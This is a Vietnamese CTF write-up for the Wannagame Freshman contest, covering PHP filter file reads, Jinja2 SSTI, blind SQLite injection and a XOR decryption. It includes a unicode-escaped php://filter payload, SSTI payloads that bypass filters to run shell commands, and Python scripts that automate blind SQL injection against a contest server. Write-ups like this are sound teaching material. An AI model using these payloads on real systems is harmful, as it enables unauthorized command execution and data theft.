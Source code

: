 ```yaml
---
title: "Wannagame Freshman CTF writeup"
date: 2023-11-12 00:00:00 +0800
categories: [CTF Writeup]
tags: [SQL Injectiom,SSTI]
---
```


# WannaWinFreshman-Writeup
## Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/5a3ee0ab-9970-4e3d-bf8f-a67604534fde)


- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Sau khi phân tích và tìm kiếm trên mạng thì mình tìm được 1 bài viết[LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/31c3d8aa-a577-4c52-b174-7eaa8910b281)

- Cơ bản là json_decode nó sẽ decode luôn mã unicode thành chữ cái vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/167c4651-6880-45a5-a3d8-ac155cf0de8a)

- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
## Bài 2 Namename:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/bd2e0d52-af7e-45c1-89c4-fe9600ddf55a)

- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/c3c2e80c-42fd-4289-8161-e206cbe83114)

- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2
- Payload : {% raw %}`{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}` {% endraw %}
- Và nó bị chặn ![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/86841683-477b-4202-bd17-47c676c174f0)

- {% raw %} Sau vài thử nghiệm thì có vẽ nó chặn dấu `.` và `[]` nên mình chuyển qua |attr {% endraw %}

- Payload mới: {% raw %}`{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`{% endraw %}
- Và nó đã hoạt động

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/52518bdf-e514-4c32-82fa-6786ff0696e1)

- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt`
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/e1b25b5d-a751-451c-aee2-9cff0ec4d02f)

- Và nó vẫn bị chặn cái gì đấy nên mình sử dụng cách này bypass filter (chổ này là chặn dấu `.` và chữ `f` thì phải)
- {% raw %}`{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`{% endraw %}
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/f5dbbef9-30f7-4d40-abfd-bc1702b2ff88)

- Flag: **W1{U_are_master_in_SSTI}**
## Bài 3 Solite:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/1b569475-6ce3-4a81-8a8c-ca37628b8e39)

- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như thế này (blackbox)

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/138c6617-f120-42e6-bd3d-d0d908d661e7)

- Sau khi đọc code và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/8511cff7-b6c5-4094-862d-d109b62eef8f)

- Đây là query của bài
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/2d617e44-62ac-43b9-9e24-7b9b73252799)

- Sau một vài thử nghiệm thì mình tìm được cách để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i 
- `1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng


```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/418d91e8-49ba-4f20-bde8-d7adc602926a)


`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Script của mình

```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```

- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
## Bài 4 Differences:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/a7582df9-e22c-4883-8b36-1c471028aeeb)

- Flag ngay ở trong file
- Flag: **W1{SaKur4_s0_b34uTiFuL_RI9ht?????}**
## Bài 5 Free Flag:
![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/4bab7039-5cde-4132-bcd6-5b2a4ddb73e1)


- Đọc file pcapng ta tìm được source và key


```py
import base64

BANNER = """ ___       __   ________  ________   ________   ________  ___       __     _____  ________      
|\  \     |\  \|\   __  \|\   ___  \|\   ___  \|\   __  \|\  \     |\  \  / __  \|\   ___  \    
\ \  \    \ \  \ \  \|\  \ \  \\\ \  \ \  \\\ \  \ \  \|\  \ \  \    \ \  \|\/_|\  \ \  \\\ \  \   
 \ \  \  __\ \  \ \   __  \ \  \\\ \  \ \  \\\ \  \ \   __  \ \  \  __\ \  \|/ \ \  \ \  \\\ \  \  
  \ \  \|\__\_\  \ \  \ \  \ \  \\\ \  \ \  \\\ \  \ \  \ \  \ \  \|\__\_\  \   \ \  \ \  \\\ \  \ 
   \ \____________\ \__\ \__\ \__\\\ \__\ \__\\\ \__\ \__\ \__\ \____________\   \ \__\ \__\\\ \__\\
    \|____________|\|__|\|__|\|__| \|__|\|__| \|__|\|__|\|__|\|____________|    \|__|\|__| \|__|
"""

KEY = bytes.fromhex('deadbeef')

def encryptSecret(secret):
    lst_byte = []
    for i in range(len(secret)):
        enc_byte = ord(secret[i]) ^ KEY[i % len(KEY)]
        lst_byte.append(enc_byte.to_bytes(1, 'big'))
    
    return base64.b64encode(b''.join([_ for _ in lst_byte])).decode()

if __name__=='__main__':
    print(BANNER)
    secret = input("> Please give me your secret: ")
    print("\n> Here is your encrypted secret:", encryptSecret(secret)
```

![image](https://github.com/anzuukino/anzuukino.github.io/assets/86243871/a9b96523-9039-4b3c-abbb-4d87c0147612)

- Decrypt lại ta sẽ có flag


```py
import base64

KEY = bytes.fromhex('deadbeef')

def decryptSecret(encrypted_secret):
    encrypted_bytes = base64.b64decode(encrypted_secret.encode())
    decrypted_bytes = [encrypted_bytes[i] ^ KEY[i % len(KEY)] for i in range(len(encrypted_bytes))]
    decrypted_text = ''.join([chr(byte) for byte in decrypted_bytes])
    return decrypted_text

secret = "iZzFsKme0oOdndOqgdnxsKmZ0KG/2o+hgdA="

print(decryptSecret(secret))
```

- Flag: **W1{_w3llC0mE_tO_w4nNaw1N_}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~


